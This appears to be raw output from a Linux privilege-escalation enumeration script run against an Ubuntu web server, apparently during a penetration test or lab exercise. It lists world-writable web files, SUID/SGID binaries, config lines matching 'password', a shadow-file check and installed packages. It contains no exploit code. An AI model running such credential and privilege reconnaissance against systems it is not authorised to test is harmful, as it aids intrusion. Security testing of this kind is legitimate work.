-rwxrwxrwx 1 root root 0 Nov 27 2013 /var/www/html/jabcd0cs/plug-ins/index.html
-rwxrwxrwx 1 root root 10367 Nov 27 2013 /var/www/html/jabcd0cs/Dept_Perms_class.php
-rwxrwxrwx 1 root root 7406 Nov 27 2013 /var/www/html/jabcd0cs/history.php
-rwxrwxrwx 1 root root 15120 Nov 27 2013 /var/www/html/jabcd0cs/LICENSE.txt
[+] Checking if root's home folder is accessible
[+] SUID/SGID Files and Directories
-rwsr-xr-x 1 root root 30112 May 15 2015 /bin/fusermount
-rwsr-xr-x 1 root root 35300 Jan 27 2016 /bin/su
-rwsr-xr-x 1 root root 43316 May 7 2014 /bin/ping6
-rwsr-xr-x 1 root root 67704 Sep 2 2015 /bin/umount
-rwsr-xr-x 1 root root 38932 May 7 2014 /bin/ping
-rwsr-xr-x 1 root root 88752 Sep 2 2015 /bin/mount
-rwxr-sr-x 3 root mail 9704 Dec 4 2012 /usr/bin/mail-unlock
-rwsr-xr-x 1 root root 66284 Jan 27 2016 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 18168 Nov 24 2015 /usr/bin/pkexec
-rwxr-sr-x 1 root tty 18056 Sep 2 2015 /usr/bin/wall
-rwxr-sr-x 3 root mail 9704 Dec 4 2012 /usr/bin/mail-touchlock
-rwxr-sr-x 1 root mlocate 34452 Jun 20 2013 /usr/bin/mlocate
-rwsr-xr-x 1 root root 45420 Jan 27 2016 /usr/bin/passwd
-rwxr-sr-x 1 root tty 9748 Jun 4 2013 /usr/bin/bsd-write
-rwsr-xr-x 1 root root 72860 Oct 21 2013 /usr/bin/mtr
-rwxr-sr-x 1 root utmp 406700 Nov 7 2013 /usr/bin/screen
-rwxr-sr-x 1 root ssh 329144 Jan 27 2016 /usr/bin/ssh-agent
-rwxr-sr-x 1 root shadow 18208 Jan 27 2016 /usr/bin/expiry
-rwxr-sr-x 1 root shadow 53516 Jan 27 2016 /usr/bin/chage
-rwsr-sr-x 1 daemon daemon 46652 Oct 21 2013 /usr/bin/at
-rwsr-xr-x 1 root root 30984 Jan 27 2016 /usr/bin/newgrp
-rwxr-sr-x 3 root mail 9704 Dec 4 2012 /usr/bin/mail-lock
-rwsr-xr-x 1 root root 44620 Jan 27 2016 /usr/bin/chfn
-rwsr-xr-x 1 root root 18136 May 7 2014 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 35916 Jan 27 2016 /usr/bin/chsh
-rwxr-sr-x 1 root mail 13960 Dec 7 2013 /usr/bin/dotlockfile
-rwxr-sr-x 1 root crontab 34824 Feb 9 2013 /usr/bin/crontab
-rwsr-xr-x 1 root root 156708 Aug 27 2015 /usr/bin/sudo
-rwsr-xr-x 1 root root 9612 Feb 16 2016 /usr/lib/pt_chown
-rwsr-xr-x 1 root root 5480 Feb 25 2014 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 333952 Nov 25 2014 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 9808 Nov 24 2015 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 492972 Jan 27 2016 /usr/lib/openssh/ssh-keysign
-rwsr-sr-x 1 libuuid libuuid 17996 Sep 2 2015 /usr/sbin/uuidd
-r-xr-sr-x 1 root postdrop 13620 Feb 5 2015 /usr/sbin/postqueue
-r-xr-sr-x 1 root postdrop 13636 Feb 5 2015 /usr/sbin/postdrop
-rwsr-xr-- 1 root dip 323000 Apr 21 2015 /usr/sbin/pppd
drwxrwsr-x 7 root staff 4096 Apr 3 2016 /usr/local/share/sgml
drwxrwsr-x 2 root staff 4096 Apr 3 2016 /usr/local/share/sgml/dtd
drwxrwsr-x 2 root staff 4096 Apr 3 2016 /usr/local/share/sgml/stylesheet
drwxrwsr-x 2 root staff 4096 Apr 3 2016 /usr/local/share/sgml/entities
drwxrwsr-x 2 root staff 4096 Apr 3 2016 /usr/local/share/sgml/declaration
drwxrwsr-x 2 root staff 4096 Apr 3 2016 /usr/local/share/sgml/misc
drwxrwsr-x 6 root staff 4096 Apr 3 2016 /usr/local/share/xml
drwxrwsr-x 2 root staff 4096 Apr 3 2016 /usr/local/share/xml/schema
drwxrwsr-x 2 root staff 4096 Apr 3 2016 /usr/local/share/xml/entities
drwxrwsr-x 2 root staff 4096 Apr 3 2016 /usr/local/share/xml/declaration
drwxrwsr-x 2 root staff 4096 Apr 3 2016 /usr/local/share/xml/misc
drwxrwsr-x 2 root staff 4096 Apr 3 2016 /usr/local/share/fonts
drwxrwsr-x 2 root staff 4096 Apr 3 2016 /usr/local/share/ca-certificates
drwxrwsr-x 4 root staff 4096 Apr 3 2016 /usr/local/lib/python2.7
drwxrwsr-x 2 root staff 4096 Apr 3 2016 /usr/local/lib/python2.7/site-packages
drwxrwsr-x 2 root staff 4096 Apr 3 2016 /usr/local/lib/python2.7/dist-packages
drwxrwsr-x 3 root staff 4096 Apr 3 2016 /usr/local/lib/python3.4
drwxrwsr-x 2 root staff 4096 Apr 16 2014 /usr/local/lib/python3.4/dist-packages
drwxr-s--- 2 root dip 4096 Apr 3 2016 /etc/chatscripts
drwxr-s--- 2 root dip 4096 Apr 3 2016 /etc/ppp/peers
drwxrwsr-x 2 postgres postgres 100 Oct 22 13:36 /run/postgresql
-rwxr-sr-x 1 root shadow 30432 Mar 16 2016 /sbin/unix_chkpwd
drwxrwsr-x 2 root mail 4096 Apr 16 2014 /var/mail
drwxrwsr-x 2 libuuid libuuid 4096 Apr 16 2014 /var/lib/libuuid
drwx--s--- 2 postfix postdrop 4096 Apr 16 2016 /var/spool/postfix/public
drwxr-s--- 2 mysql adm 4096 Apr 3 2016 /var/log/mysql
drwxr-sr-x 34 man root 4096 May 4 2016 /var/cache/man
drwxr-sr-x 5 man root 4096 May 4 2016 /var/cache/man/tr
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/tr/cat5
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/tr/cat1
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/tr/cat8
drwxr-sr-x 5 man root 4096 May 4 2016 /var/cache/man/pt_BR
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/pt_BR/cat5
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/pt_BR/cat1
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/pt_BR/cat8
drwxr-sr-x 5 man root 4096 May 4 2016 /var/cache/man/pl
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/pl/cat5
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/pl/cat1
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/pl/cat8
drwxr-sr-x 5 man root 4096 May 4 2016 /var/cache/man/es
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/es/cat5
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/es/cat1
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/es/cat8
drwxr-sr-x 5 man root 4096 May 4 2016 /var/cache/man/id
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/id/cat5
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/id/cat1
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/id/cat8
drwxr-sr-x 5 man root 4096 May 4 2016 /var/cache/man/ja
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/ja/cat5
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/ja/cat1
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/ja/cat8
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/cat5
drwxr-sr-x 6 man root 4096 May 4 2016 /var/cache/man/de
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/de/cat5
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/de/cat1
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/de/cat8
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/de/cat3
drwxr-sr-x 4 man root 4096 May 4 2016 /var/cache/man/fi
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/fi/cat1
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/fi/cat8
drwxr-sr-x 5 man root 4096 May 4 2016 /var/cache/man/da
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/da/cat5
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/da/cat1
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/da/cat8
drwxr-sr-x 4 man root 4096 May 4 2016 /var/cache/man/sl
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/sl/cat1
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/sl/cat8
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/cat1
drwxr-sr-x 5 man root 4096 May 4 2016 /var/cache/man/pt
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/pt/cat5
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/pt/cat1
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/pt/cat8
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/cat6
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/cat7
drwxr-sr-x 6 man root 4096 May 4 2016 /var/cache/man/cs
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/cs/cat5
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/cs/cat1
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/cs/cat7
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/cs/cat8
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/cat2
drwxr-sr-x 5 man root 4096 May 4 2016 /var/cache/man/sv
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/sv/cat5
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/sv/cat1
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/sv/cat8
drwxr-sr-x 5 man root 4096 May 4 2016 /var/cache/man/hu
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/hu/cat5
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/hu/cat1
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/hu/cat8
drwxr-sr-x 3 man root 4096 May 4 2016 /var/cache/man/gl
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/gl/cat8
drwxr-sr-x 5 man root 4096 May 4 2016 /var/cache/man/nl
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/nl/cat5
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/nl/cat1
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/nl/cat8
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/cat8
drwxr-sr-x 5 man root 4096 May 4 2016 /var/cache/man/ko
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/ko/cat5
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/ko/cat1
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/ko/cat8
drwxr-sr-x 5 man root 4096 May 4 2016 /var/cache/man/ru
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/ru/cat5
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/ru/cat1
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/ru/cat8
drwxr-sr-x 5 man root 4096 May 4 2016 /var/cache/man/fr
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/fr/cat5
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/fr/cat1
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/fr/cat8
drwxr-sr-x 5 man root 4096 May 4 2016 /var/cache/man/zh_TW
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/zh_TW/cat5
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/zh_TW/cat1
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/zh_TW/cat8
drwxr-sr-x 4 man root 4096 May 4 2016 /var/cache/man/fr.ISO8859-1
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/fr.ISO8859-1/cat7
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/fr.ISO8859-1/cat8
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/cat4
drwxr-sr-x 5 man root 4096 May 4 2016 /var/cache/man/zh_CN
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/zh_CN/cat5
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/zh_CN/cat1
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/zh_CN/cat8
drwxr-sr-x 5 man root 4096 May 4 2016 /var/cache/man/it
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/it/cat5
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/it/cat1
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/it/cat8
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/cat3
drwxr-sr-x 4 man root 4096 May 4 2016 /var/cache/man/fr.UTF-8
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/fr.UTF-8/cat7
drwxr-sr-x 2 man root 4096 Apr 3 2016 /var/cache/man/fr.UTF-8/cat8
drwxrwsr-x 2 root staff 4096 Apr 11 2014 /var/local
[+] Logs containing keyword 'password'
/var/log/bootstrap.log:Shadow passwords are now on.
[+] Config files containing keyword 'password'
/etc/debconf.conf:# World-readable, and accepts everything but passwords.
/etc/debconf.conf:Reject-Type: password
/etc/debconf.conf:# Not world readable (the default), and accepts only passwords.
/etc/debconf.conf:Name: passwords
/etc/debconf.conf:Accept-Type: password
/etc/debconf.conf:Filename: /var/cache/debconf/passwords.dat
/etc/debconf.conf:# databases, one to hold passwords and one for everything else.
/etc/debconf.conf:Stack: config, passwords
/etc/debconf.conf:# A remote LDAP database. It is also read-only. The password is really
/etc/apache2/sites-available/default-ssl.conf: # Note that no password is obtained from the user. Every entry in the user
/etc/apache2/sites-available/default-ssl.conf: # file needs this password: `xxj31ZMTZzkVA'.
/etc/iscsi/iscsid.conf:# To set a CHAP username and password for initiator
/etc/iscsi/iscsid.conf:#node.session.auth.password = password
/etc/iscsi/iscsid.conf:# To set a CHAP username and password for target(s)
/etc/iscsi/iscsid.conf:#node.session.auth.password_in = password_in
/etc/iscsi/iscsid.conf:# To set a discovery session CHAP username and password for the initiator
/etc/iscsi/iscsid.conf:#discovery.sendtargets.auth.password = password
/etc/iscsi/iscsid.conf:# To set a discovery session CHAP username and password for target(s)
/etc/iscsi/iscsid.conf:#discovery.sendtargets.auth.password_in = password_in
/etc/mysql/my.cnf:# It has been reported that passwords should be enclosed with ticks/quotes
/etc/ssl/openssl.cnf:# input_password = secret
/etc/ssl/openssl.cnf:# output_password = secret
/etc/ssl/openssl.cnf:challengePassword = A challenge password
/etc/drupal/7/sites/all/themes/black/css/style.css:.password-suggestions ul li { margin-left: 1.2em; }
/etc/drupal/7/sites/all/themes/black/css/style.css:div.password-suggestions { border: 0; }
/etc/ltrace.conf:; pwd.h
/etc/postgresql/9.3/main/postgresql.conf:#password_encryption = on
/etc/samba/smb.conf:# If you are using encrypted passwords, Samba will need to know what
/etc/samba/smb.conf:# password database type you are using.
/etc/samba/smb.conf:# password with the SMB password when the encrypted SMB password in the
/etc/samba/smb.conf: unix password sync = yes
/etc/samba/smb.conf:# For Unix password sync to work on a Debian GNU/Linux system, the following
/etc/samba/smb.conf: passwd chat = *Enter\snew\s*\spassword:* %n\n *Retype\snew\s*\spassword:* %n\n *password\supdated\ssuccessfully* .
/etc/samba/smb.conf:# This boolean controls whether PAM will be used for password changes
/etc/samba/smb.conf: pam password change = yes
/etc/samba/smb.conf:# password; please adapt to your needs
/etc/samba/smb.conf:; add user script = /usr/sbin/adduser --quiet --disabled-password --gecos "" %u
/etc/hdparm.conf:# --security-set-pass Set security password
/etc/hdparm.conf:# security_pass = password
/etc/hdparm.conf:# --user-master Select password to use
/etc/ngircd/ngircd.conf: # Global password for all users needed to connect to the server.
/etc/ngircd/ngircd.conf: # If this option is set, clients not sending a password are still
/etc/ngircd/ngircd.conf: # password to decrypt SSLKeyFile (OpenSSL only)
/etc/ngircd/ngircd.conf: # Own password for the connection. This password has to be configured
/etc/ngircd/ngircd.conf: # Foreign password for this connection. This password has to be
/etc/ngircd/ngircd.conf: # initial channel password (mode k)
[+] Shadow File (Privileged)
[*] ENUMERATING PROCESSES AND APPLICATIONS...
[+] Installed Packages
Status=Not/Inst/Conf-files/Unpacked/halF-conf/Half-inst/trig-aWait/Trig-pend
Err?=(none)/Reinst-required (Status,Err:
Name Version Description
accountsservice 0.6.35-0ubuntu7.2 query and manipulate user account information
acpid 1:2.0.21-1ubuntu2 Advanced Configuration and Power Interface event daemon
adduser 3.113+nmu3ubuntu3 add and remove users and groups
apache2 2.4.7-1ubuntu4.9 Apache HTTP Server
apache2-bin 2.4.7-1ubuntu4.9 Apache HTTP Server (binary files and modules)
apache2-data 2.4.7-1ubuntu4.9 Apache HTTP Server (common files)
apparmor 2.8.95~2430-0ubuntu5.3 User-space parser utility for AppArmor
apport 2.14.1-0ubuntu3.19 automatically generate crash reports for debugging
apport-symptoms 0.20 symptom scripts for apport
apt 1.0.1ubuntu2.11 commandline package manager
apt-transport-https 1.0.1ubuntu2.11 https download transport for APT
apt-utils 1.0.1ubuntu2.11 package management related utility programs
apt-xapian-index 0.45ubuntu4 maintenance and search tools for a Xapian index of Debian packages
aptitude 0.6.8.2-1ubuntu4 terminal-based package manager
aptitude-common 0.6.8.2-1ubuntu4 architecture indepedent files for the aptitude package manager
at 3.1.14-1ubuntu1 Delayed job execution and batch processing
attr 1:2.4.47-1ubuntu1 Utilities for manipulating filesystem extended attributes
base-files 7.2ubuntu5.4 Debian base system miscellaneous files
base-passwd 3.5.33 Debian base system master password and group files
bash 4.3-7ubuntu1.5 GNU Bourne Again SHell
bash-completion 1:2.1-4ubuntu0.1 programmable completion for the bash shell
bc 1.06.95-8ubuntu1 GNU bc arbitrary precision calculator language
bind9-host 1:9.9.5.dfsg-3ubuntu0.8 Version of 'host' bundled with BIND 9.X
binutils 2.24-5ubuntu14 GNU assembler, linker and binary utilities
biosdevname 0.4.1-0ubuntu6.3 apply BIOS-given names to network devices
bsdmainutils 9.0.5ubuntu1 collection of more utilities from FreeBSD
bsdutils 1:2.20.1-5.1ubuntu20.7 Basic utilities from 4.4BSD-Lite
build-essential 11.6ubuntu6 Informational list of build-essential packages
busybox-initramfs 1:1.21.0-1ubuntu1 Standalone shell setup for initramfs
busybox-static 1:1.21.0-1ubuntu1 Standalone rescue shell with tons of builtin utilities
byobu 5.77-0ubuntu1.2 powerful, text based window manager and shell multiplexer
bzip2 1.0.6-5 high-quality block-sorting file compressor - utilities
ca-certificates 20160104ubuntu0.14.04.1 Common CA certificates
comerr-dev 2.1-1.42.9-3ubuntu1.3 common error description library - headers and static libraries
command-not-found 0.3ubuntu12 Suggest installation of packages in interactive bash sessions
command-not-found-data 0.3ubuntu12 Set of data files for command-not-found.
console-setup 1.70ubuntu8 console font and keymap setup program
coreutils 8.21-1ubuntu5.4 GNU core utilities
cpio 2.11+dfsg-1ubuntu1.2 GNU cpio -- a program to manage archives of files
cpp 4:4.8.2-1ubuntu6 GNU C preprocessor (cpp)
cpp-4.8 4.8.4-2ubuntu1~14.04.1 GNU C preprocessor
crda 1.1.2-1ubuntu2 wireless Central Regulatory Domain Agent
cron 3.0pl1-124ubuntu2 process scheduling daemon
curl 7.35.0-1ubuntu2.6 command line tool for transferring data with URL syntax
dash 0.5.7-4ubuntu1 POSIX-compliant shell
dbconfig-common 1.8.47+nmu1 common framework for packaging database applications
dbus 1.6.18-0ubuntu4.3 simple interprocess messaging system (daemon and utilities)
debconf 1.5.51ubuntu2 Debian configuration management system
debconf-i18n 1.5.51ubuntu2 full internationalization support for debconf
debianutils 4.4 Miscellaneous utilities specific to Debian
dh-python 1.20140128-1ubuntu8.2 Debian helper tools for packaging Python libraries and applications
diffutils 1:3.3-1 File comparison utilities
dmidecode 2.12-2 SMBIOS/DMI table decoder
dmsetup 2:1.02.77-6ubuntu2 Linux Kernel Device Mapper userspace library
dnsutils 1:9.9.5.dfsg-3ubuntu0.8 Clients provided with BIND
dosfstools 3.0.26-1 utilities for making and checking MS-DOS FAT filesystems
dpkg 1.17.5ubuntu5.5 Debian package management system
dpkg-dev 1.17.5ubuntu5.5 Debian package development tools
drupal7 7.26-1ubuntu0.1 fully-featured content management framework
e2fslibs:i386 1.42.9-3ubuntu1.3 ext2/ext3/ext4 file system libraries
e2fsprogs 1.42.9-3ubuntu1.3 ext2/ext3/ext4 file system utilities
ed 1.9-2 classic UNIX line editor
eggdrop 1.6.19-1.2ubuntu7 Advanced IRC Robot
eggdrop-data 1.6.19-1.2ubuntu7 Architecture independent files for eggdrop
eject 2.1.5+deb1+cvs20081104-13.1 ejects CDs and operates CD-Changers under Linux
ethtool 1:3.13-1 display or change Ethernet device settings
fakeroot 1.20-3ubuntu2 tool for simulating superuser privileges
file 1:5.14-2ubuntu3.3 Determines file type using "magic" numbers
findutils 4.4.2-7 utilities for finding files--find, xargs
fontconfig-config 2.11.0-0ubuntu4.1 generic font configuration library - configuration
fonts-dejavu-core 2.34-1ubuntu1 Vera font family derivate with additional characters
fonts-ubuntu-font-family-console 0.80-0ubuntu6 Ubuntu Font Family Linux console fonts, sans-serif monospace
friendly-recovery 0.2.25 Make recovery more user-friendly
ftp 0.17-28 classical file transfer client
fuse 2.9.2-4ubuntu4.14.04.1 Filesystem in Userspace
g++ 4:4.8.2-1ubuntu6 GNU C++ compiler
g++-4.8 4.8.4-2ubuntu1~14.04.1 GNU C++ compiler
gawk 1:4.0.1+dfsg-2.1ubuntu2 GNU awk, a pattern scanning and processing language
gcc 4:4.8.2-1ubuntu6 GNU C compiler
gcc-4.8 4.8.4-2ubuntu1~14.04.1 GNU C compiler
gcc-4.8-base:i386 4.8.4-2ubuntu1~14.04.1 GCC, the GNU Compiler Collection (base package)
gcc-4.9-base:i386 4.9.3-0ubuntu4 GCC, the GNU Compiler Collection (base package)
geoip-database 20140313-1 IP lookup command line tools that use the GeoIP library (country database)
gettext-base 0.18.3.1-1ubuntu3 GNU Internationalization utilities for the base system
gir1.2-glib-2.0 1.40.0-1ubuntu0.2 Introspection data for GLib, GObject, Gio and GModule
gnupg 1.4.16-1ubuntu2.3 GNU privacy guard - a free PGP replacement
gpgv 1.4.16-1ubuntu2.3 GNU privacy guard - signature verification tool
grep 2.16-1 GNU grep, egrep and fgrep
groff-base 1.22.2-5 GNU troff text-formatting system (base system components)
grub-common 2.02~beta2-9ubuntu1.7 GRand Unified Bootloader (common files)
grub-gfxpayload-lists 0.6 GRUB gfxpayload blacklist
grub-pc 2.02~beta2-9ubuntu1.7 GRand Unified Bootloader, version 2 (PC/BIOS version)
grub-pc-bin 2.02~beta2-9ubuntu1.7 GRand Unified Bootloader, version 2 (PC/BIOS binaries)
grub2-common 2.02~beta2-9ubuntu1.7 GRand Unified Bootloader (common files for version 2)
gzip 1.6-3ubuntu1 GNU compression utilities
hdparm 9.43-1ubuntu3 tune hard disk parameters for high performance
hostname 3.15ubuntu1 utility to set/show the host name or domain name
ifupdown 0.7.47.2ubuntu4.4 high level tools to configure network interfaces
info 5.2.0.dfsg.1-2 Standalone GNU Info documentation browser
init-system-helpers 1.14 helper tools for all init systems
initramfs-tools 0.103ubuntu4.3 tools for generating an initramfs
initramfs-tools-bin 0.103ubuntu4.3 binaries used by initramfs-tools
initscripts 2.88dsf-41ubuntu6.3 scripts for initializing and shutting down the system
insserv 1.14.0-5ubuntu2 boot sequence organizer using LSB init.d script dependency information
install-info 5.2.0.dfsg.1-2 Manage installed documentation in info format
installation-report 2.54ubuntu1 system installation report
iproute2 3.12.0-2ubuntu1 networking and traffic control tools
iptables 1.4.21-1ubuntu1 administration tools for packet filtering and NAT
iputils-ping 3:20121221-4ubuntu1.1 Tools to test the reachability of network hosts
iputils-tracepath 3:20121221-4ubuntu1.1 Tools to trace the network path to a remote host
irqbalance 1.0.6-2ubuntu0.14.04.4 Daemon to balance interrupts for SMP systems
isc-dhcp-client 4.2.4-7ubuntu12.4 ISC DHCP client
isc-dhcp-common 4.2.4-7ubuntu12.4 common files used by all the isc-dhcp* packages
iso-codes 3.52-1 ISO language, territory, currency, script codes and their translations
javascript-common 11 Base support for JavaScript library packages
kbd 1.15.5-1ubuntu1 Linux console font and keytable utilities
keyboard-configuration 1.70ubuntu8 system-wide keyboard preferences
klibc-utils 2.0.3-0ubuntu1 small utilities built with klibc for early boot
kmod 15-0ubuntu6 tools for managing Linux kernel modules
krb5-locales 1.12+dfsg-2ubuntu5.2 Internationalization support for MIT Kerberos
krb5-multidev 1.12+dfsg-2ubuntu5.2 Development files for MIT Kerberos without Heimdal conflict
landscape-common 14.12-0ubuntu0.14.04 The Landscape administration system client - Common files
language-pack-en 1:14.04+20150219 translation updates for language English
language-pack-en-base 1:14.04+20150219 translations for language English
language-selector-common 0.129.3 Language selector for Ubuntu
laptop-detect 0.13.7ubuntu2 attempt to detect a laptop
less 458-2 pager program similar to more
libaccountsservice0:i386 0.6.35-0ubuntu7.2 query and manipulate user account information - shared libraries
libacl1:i386 2.2.52-1 Access control list shared library
libaio1:i386 0.3.109-4 Linux kernel AIO access library - shared library
libalgorithm-diff-perl 1.19.02-3 module to find differences between files
libalgorithm-diff-xs-perl 0.04-2build4 module to find differences between files (XS accelerated)
libalgorithm-merge-perl 0.08-2 Perl module for three-way merge of textual data
libapache2-mod-auth-mysql 4.3.9-13.1ubuntu3 Apache 2 module for MySQL authentication
libapache2-mod-php5 5.5.9+dfsg-1ubuntu4.14 server-side, HTML-embedded scripting language (Apache 2 module)
libapparmor-perl 2.8.95~2430-0ubuntu5.3 AppArmor library Perl bindings
libapparmor1:i386 2.8.95~2430-0ubuntu5.3 changehat AppArmor library
libapr1:i386 1.5.0-1 Apache Portable Runtime Library
libapr1-dev 1.5.0-1 Apache Portable Runtime Library - Development Headers
libaprutil1:i386 1.5.3-1 Apache Portable Runtime Utility Library
libaprutil1-dbd-sqlite3:i386 1.5.3-1 Apache Portable Runtime Utility Library - SQLite3 Driver
libaprutil1-ldap:i386 1.5.3-1 Apache Portable Runtime Utility Library - LDAP Driver
libapt-inst1.5:i386 1.0.1ubuntu2.11 deb package format runtime library
libapt-pkg4.12:i386 1.0.1ubuntu2.11 package management runtime library
libarchive-extract-perl 0.70-1 generic archive extracting module
libasan0:i386 4.8.4-2ubuntu1~14.04.1 AddressSanitizer -- a fast memory error detector
libasn1-8-heimdal:i386 1.6~git20131207+dfsg-1ubuntu1.1 Heimdal Kerberos - ASN.1 library
libasprintf0c2:i386 0.18.3.1-1ubuntu3 GNU library to use fprintf and friends in C++
libatomic1:i386 4.8.4-2ubuntu1~14.04.1 support library providing __atomic built-in functions
libattr1:i386 1:2.4.47-1ubuntu1 Extended attribute shared library
libaudit-common 1:2.3.2-2ubuntu1 Dynamic library for security auditing - common files
libaudit1:i386 1:2.3.2-2ubuntu1 Dynamic library for security auditing
libavahi-client3:i386 0.6.31-4ubuntu1 Avahi client library
libavahi-common-data:i386 0.6.31-4ubuntu1 Avahi common data files
libavahi-common3:i386 0.6.31-4ubuntu1 Avahi common library
libbind9-90 1:9.9.5.dfsg-3ubuntu0.8 BIND9 Shared Library used by BIND
libblkid1:i386 2.20.1-5.1ubuntu20.7 block device id library
libboost-iostreams1.54.0:i386 1.54.0-4ubuntu3.1 Boost.Iostreams Library
libbsd0:i386 0.6.0-2ubuntu1 utility functions from BSD systems - shared library
libbz2-1.0:i386 1.0.6-5 high-quality block-sorting file compressor library - runtime
libc-bin 2.19-0ubuntu6.7 Embedded GNU C Library: Binaries
libc-dev-bin 2.19-0ubuntu6.7 Embedded GNU C Library: Development binaries
libc6:i386 2.19-0ubuntu6.7 Embedded GNU C Library: Shared libraries
libc6-dev:i386 2.19-0ubuntu6.7 Embedded GNU C Library: Development Libraries and Header Files
libcap-ng0 0.7.3-1ubuntu2 An alternate POSIX capabilities library
libcap2:i386 1:2.24-0ubuntu2 support for getting/setting POSIX.1e capabilities
libcap2-bin 1:2.24-0ubuntu2 basic utility programs for using capabilities
libcgmanager0:i386 0.24-0ubuntu7.5 Central cgroup manager daemon (client library)
libck-connector0:i386 0.4.5-3.1ubuntu2 ConsoleKit libraries
libclass-accessor-perl 0.34-1 Perl module that automatically generates accessors
libcloog-isl4:i386 0.18.2-1 Chunky Loop Generator (runtime library)
libcomerr2:i386 1.42.9-3ubuntu1.3 common error description library
libcups2:i386 1.7.2-0ubuntu1.7 Common UNIX Printing System(tm) - Core library
libcurl3:i386 7.35.0-1ubuntu2.6 easy-to-use client-side URL transfer library (OpenSSL flavour)
libcurl3-gnutls:i386 7.35.0-1ubuntu2.6 easy-to-use client-side URL transfer library (GnuTLS flavour)
libcurl4-gnutls-dev:i386 7.35.0-1ubuntu2.6 development files and documentation for libcurl (GnuTLS flavour)
libcwidget3 0.5.16-3.5ubuntu1 high-level terminal interface library for C++ (runtime files)
